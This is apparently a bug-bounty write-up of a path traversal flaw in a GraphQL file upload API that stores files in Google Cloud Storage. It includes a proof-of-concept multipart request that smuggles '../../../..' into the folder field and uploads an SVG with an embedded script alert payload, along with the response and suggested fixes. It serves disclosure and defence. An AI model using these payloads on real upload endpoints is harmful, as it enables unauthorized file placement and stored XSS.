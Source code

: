 ```yaml
---
title: Path Traversal in File Upload via GraphQL API
layout: post
categories: web
description: A file upload endpoint accepted folder traversal sequences, enabling unauthorized file placement and abuse of signed Google Cloud Storage URLs.
summary: A file upload endpoint accepted folder traversal sequences, enabling unauthorized file placement and abuse of signed Google Cloud Storage URLs.
date: 2025-03-11
tags:
  - path-traversal
  - file-upload
  - graphql
  - gcp
  - bug-bounty
read_time: 3 minute read
pin: false
comments: true
toc: true
---
```


# Path Traversal in File Upload via GraphQL API


## Summary

During a routine test of a GraphQL file upload API, I discovered a **path traversal vulnerability** that allowed attackers to escape intended directories and store files in arbitrary locations on Google Cloud Storage. This could lead to **malicious file hosting**, **stored XSS**, or **unintentional overwriting of sensitive files**.

---

## Vulnerability Details

- **Endpoint**: `POST /graphql`
- **Vulnerable Parameter**: `folder` inside the GraphQL mutation

By setting the `folder` variable to a traversal string like `../../../..`, I was able to manipulate the final storage path of the uploaded file.

---

## Proof of Concept

Here’s a condensed version of the PoC used in the request:

```http
POST /graphql HTTP/2
Host: rise-api.target.com
Authorization: Bearer <token>
Content-Type: multipart/form-data; boundary=----boundary

------boundary
Content-Disposition: form-data; name="operations"

{
  "operationName": "singleUpload",
  "variables": {
    "folder": "../../../..",
    "file": "newfile"
  },
  "query": "mutation singleUpload($file: Upload!, $folder: String!) { singleUpload(file: $file, folder: $folder) { filename uri signedUrl } }"
}
------boundary
Content-Disposition: form-data; name="map"

{ "1": ["variables.file"] }
------boundary
Content-Disposition: form-data; name="1"; filename="test.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="no"?>
<svg xmlns="http://www.w3.org/2000/svg">
  <script>alert("XSS by mora");</script>
</svg>
------boundary--

```

### API Response

```json
{
  "data": {
    "singleUpload": {
      "filename": "test.svg",
      "uri": "organization_abc/../../../others/unique-id-test.svg",
      "signedUrl": "https://rise-files.target.com/others/unique-id-test.svg?...",
    }
  }
}
```

This shows the file being placed in a directory (`/others/`) outside the intended `organization_abc` context.

---

## Recommended Fixes

1. **Sanitize folder input**: Reject traversal sequences like `../` in any upload path.
2. **Whitelist upload directories**: Only allow uploads to pre-approved subdirectories.
3. **Limit signed URL lifetimes**: Expire signed URLs quickly to reduce misuse.
4. **Validate upload metadata server-side**: Don't rely on client-provided `folder` paths blindly.
5. **Restrict public access to upload endpoints**: Tie storage and access to strong authZ/authN checks.

---

## Impact

* **Persistent Malicious File Hosting**: Attackers could upload malware or phishing content to a trusted domain.
* **Stored XSS Risk**: Malicious file names or SVG files might execute if reflected or embedded.
* **Overwrite Risk**: Without validation, uploads could overwrite essential `.js`, `.json`, or user-generated content.
* **Information Exposure**: If GCS directory listings are ever enabled, sensitive files may be accessible.

---

## Resolution

The issue was marked **Informative** due to limited security impact in this context. However, it highlights a common misconfiguration when using file upload APIs, especially with cloud storage services like GCS or S3.

---

## 📚 References

* [OWASP Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
* [GCP Signed URLs Best Practices](https://cloud.google.com/storage/docs/access-control/signed-urls)

---

Thanks for reading!

---
